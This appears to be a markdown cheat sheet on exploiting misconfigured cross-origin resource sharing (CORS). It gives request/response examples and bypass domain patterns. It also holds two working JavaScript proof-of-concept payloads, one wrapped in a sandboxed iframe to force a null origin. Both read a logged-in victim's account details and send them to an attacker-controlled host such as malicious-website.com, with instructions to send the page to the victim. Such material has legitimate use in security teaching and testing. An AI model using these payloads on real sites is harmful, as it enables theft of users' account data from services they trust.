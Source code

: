 # Cross-origin resource sharing (CORS)

>Cross-origin resource sharing (CORS) is a browser mechanism which enables controlled access to resources located outside of a given domain. It extends and adds flexibility to the same-origin policy [SOP](https://portswigger.net/web-security/cors/same-origin-policy). However, it also provides potential for cross-domain based attacks, if a website's CORS policy is poorly configured and implemented.



## Summary

- [Cross-origin resource sharing (CORS)](#cross-origin-resource-sharing-cors)
  - [Summary](#summary)
  - [Exploit](#exploit)
    - [Bypass all domains ending with `vulnerable-website.com`](#bypass-all-domains-ending-with-vulnerable-websitecom)
    - [Bypass all domains beginning with  `vulnerable-website.com`](#bypass-all-domains-beginning-with-vulnerable-websitecom)
    - [Awesome writeups :fire:](#awesome-writeups-fire)
  - [References](#references)

## Exploit

:fire: **Example 1:**

***Request***

```bash
GET /accountDetails HTTP/1.1
Host: vulnerable-website.com
```
***Response***

```bash
HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
```

**Note**
> the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS

***Modified Request***

```bash
GET /accountDetails HTTP/1.1
Host: vulnerable-website.com
Origin: https://your-website.com
```

***Response***

```bash
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://your-website.com
Access-Control-Allow-Credentials: true
```

then you add this code to a website you control :


```bash
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','$url/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script> 
```
**note :**
replace `$url` with `vulnerable-website.com`

=> **send the website to the victim**

**Now** if the victim is logged in `vulnerable-website.com` and he visit your website ... you get his `accountDetails`


:fire: **Example 2:**

***Request***

```bash
GET /accountDetails HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
```

***Response***

```bash
HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
```

**Notice no "Access-Control-Allow-Origin" in response**

***Modified Request***

```bash
GET /accountDetails HTTP/1.1
Host: vulnerable-website.com
Origin: null
```

***Response***
```bash
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

**POC**

```bash
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
   var req = new XMLHttpRequest ();
   req.onload = reqListener;
   req.open('get','$url/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='$exploitUrl/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe> 
```

**Note :** 

Replace `$url` with : `vulnerable-website.com`

Replace `$exploitUrl` with : `https://malicious-website.com`

=> send the website to the victim



 ### Bypass all domains ending with `vulnerable-website.com`

  ```bash
  anything-vulnerable-website.com
  ```
 ### Bypass all domains beginning with  `vulnerable-website.com`

```bash
  vulnerable-website.com.anything.com
  ```



### Awesome writeups :fire:

[Think Outside the Scope: Advanced CORS Exploitation Techniques](https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397)
[Tricky CORS Bypass in Yahoo! View](https://www.corben.io/tricky-CORS/)



## References
* [Portswigger](https://portswigger.net/web-security/cors)

